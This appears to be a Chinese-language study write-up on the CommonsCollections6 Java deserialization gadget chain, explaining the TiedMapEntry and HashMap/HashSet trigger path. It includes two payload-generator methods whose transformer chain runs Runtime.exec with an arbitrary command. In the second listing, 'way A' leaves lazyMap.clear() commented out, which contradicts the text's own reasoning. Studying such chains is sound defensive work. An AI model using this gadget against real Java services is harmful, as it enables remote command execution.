






# CommonsCollections6

## 0x01 修正 高版本不可行原因 - LinkedHashMap 

前面关于 LazyMap 利用时，提到这个利用方式是通过调用 `readObject()` 方法根据序列化数据重建对象后，进入代理对象的 `invoke()` 方法实现利用。

在 jdk 8u71 之前的版本，`readObject()` 进入后，通过 `s.defaultReadObject();` 将 `memberValues` 还原为 LazyMap 形成调用，这里很好理解。

为了更好的理解，我们将调用链中的 `AnnotationInvocationHandler` 分成 `AH@1` 和 `AH@2` 两个来理解

> `AH@1` 用于装饰 LazyMap，是通过传入构造方法创建的
>
> `AH@2` 再次使用，对 `AH@1` 进行代理，形成嵌套结构

知道这个后，那么初始进入 `readObject()` 时，是不是就该执行 `AH@1`? 如果 `AH@1` 这个过程就改变了 `memberValues` 值是不是没办法继续进入 `AH@2` 的流程？而 jdk 8u71 中执行完 `readObject()` 后会将 `LinkedHashMap` 赋值到 `memberValues` 中，逻辑闭环也就走不通了。



在实际调用的时候，在 `readObject()` 方法打断点，可以看到确实进入了两次 `readObject()` 方法，并且在第一次进入时的 469 行修改 mv 为 `memverValue` 即 lazyMap 是可以利用成功的。那为什么会反序列化两次呢？

因为 JVM 在处理多重封装的时候，会先将每个代理对象分别调用其关联的 `readObject()` 方法恢复状态。（动态代理机制需要代理类在反序列化时能够确保其代理接口和内部数据结构被完整地重建）

还是以 `LazyMap` 为例，既然通过 `entrySet()` 的方式走不通，那就再找找其他调用 `LazyMap.get()` 的方法。

## 0x02 TiedMapEntry

`org.apache.commons.collections.keyvalue.TiedMapEntry` 类的 `getValue()` 方法调用了 `map.get()` ，map 对象通过 `TiedMapEntry` 的构造方法赋值。



并且 `getValue()` 方法在 `TiedMapEntry.hashCode()` 中被调用。



## 0x03 HashMap

在分析 `URLDNS` 时提到 HashMap 是实现了 Serializable 的，在反序列化 HashMap 时会计算 key 的 hash 即会调用 `hashCode()`  方法进行计算，那么同样可以用这种方式触发 `TiedMapEntry.hashCode()`。当然也会遇到与之前一致的问题调用 `HashMap.put()` 时提前触发，再复习一下之前的解决思路。

1. URLDNS 反射调用 `putVal()` 写入 key
2. CC1 LazyMap 先传一个空的 `ChainedTransformer` ，再反射将有威胁的 `Transformer[]` 写入

实现如下：

```java
    public Serializable getObject(final String command) throws Exception {
        final String[] execArgs = new String[]{command};
        // inert chain for setup
        final Transformer transformerChain = new ChainedTransformer(
                new Transformer[]{new ConstantTransformer(1)});
        // real chain for after setup
        final Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{
                        String.class, Class[].class}, new Object[]{
                        "getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{
                        Object.class, Object[].class}, new Object[]{
                        null, new Object[0]}),
                new InvokerTransformer("exec",
                        new Class[]{String.class}, execArgs),
                new ConstantTransformer(1)};


        final Map innerMap = new HashMap();

        final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);

        TiedMapEntry entry = new TiedMapEntry(lazyMap, "Whoopsunix");

        HashMap hashMap = new HashMap();
        hashMap.put(entry, "Whoopsunix");


        lazyMap.clear();

        Reflections.setFieldValue(transformerChain, "iTransformers", transformers);

        return hashMap;
    }
```

## 0x04 HashSet

而在 ysoserial 中使用的则是 `java.util.HashSet` ，HashSet 基于 HashMap 来实现的，是一个不允许有重复元素的集合。HashSet 的值存在 HashMap key 上，value 恒为 `private static final Object PRESENT = new Object();`


在 `HashSet#readObject()` 中会直接对我们的输入流进行反序列化，并将该对象作为 key 值保存到 HashMap，`put()` 方法会执行 `hashCode()` 方法计算 key 的 hash。（ hashcode() 方法广泛的运用在 Map 的各种操作，比如 get、put、remove等）

所以总结起来这条 gadget 的大致实现思路： `java.util.HashSet#readObject()` -> `HashMap#put()` -> `HashMap#hash(key)` -> `TiedMapEntry#hashCode()` 

我们注意到 ysoserial 中是实现反射获取了 HashMap 中的 table 属性（即 HashMap 的底层存储），通过反射的方式将 table中的 key 值修改为 HashSet ，那么如果直接向 HashSet 中添加 entry 对象会发生什么？



在序列化时执行 HashMap 的 put() 方法时会计算 key 的 hashcode，而这时的 key 值为 TiedMapEntry，根据 HashMap 的 hash() 方法，会执行其 hashCode() 方法。


TiedMapEntry.hashCode() 调用 getValue() ，其中的 map 通过 TiedMapEntry 构造方法赋值为 Lazymap



LazyMap get() 方法由于不存在 foo 这个 key 所以执行 put() 方法。那么反序列化的时候再进入 get() 方法时就不满足 if 条件，所以 ysoserial 中通过反射更改了这个 key 值为 TiedMapEntry。



但我们思考一下，既然问题出在 LazyMap 存在 foo 这个 key ，HashSet 又需要 TiedMapEntry 对象作为 key ，那么可以针对第三点中 HashMap 的例子进行改造，HashSet 中传入 TiedMapEntry 作为 key ，再对 LazyMap 执行一次 `clear()` 去除因为 `HashMap.put()` 造成的影响，Hashmap 和 Hashset 的写法都可以。

缝合后如下：

```java
    public Serializable getObject(final String command) throws Exception {
        final String[] execArgs = new String[]{command};
        // inert chain for setup
        final Transformer transformerChain = new ChainedTransformer(
                new Transformer[]{new ConstantTransformer(1)});
        // real chain for after setup
        final Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{
                        String.class, Class[].class}, new Object[]{
                        "getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{
                        Object.class, Object[].class}, new Object[]{
                        null, new Object[0]}),
                new InvokerTransformer("exec",
                        new Class[]{String.class}, execArgs),
                new ConstantTransformer(1)};


        final Map innerMap = new HashMap();

        final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);

        TiedMapEntry entry = new TiedMapEntry(lazyMap, "Whoopsunix");

        // way A
        HashMap hashMap = new HashMap();
        hashMap.put(entry, "Whoopsunix");
//        lazyMap.clear();
        Reflections.setFieldValue(transformerChain, "iTransformers", transformers);
        return hashMap;

        // way B
//        HashMap hashMap = new HashMap();
//        hashMap.put(entry, "Whoopsunix");
//        HashSet hashSet = new HashSet(hashMap.keySet());
//        lazyMap.clear();
//        Reflections.setFieldValue(transformerChain, "iTransformers", transformers);
//        return hashSet;
    }
```

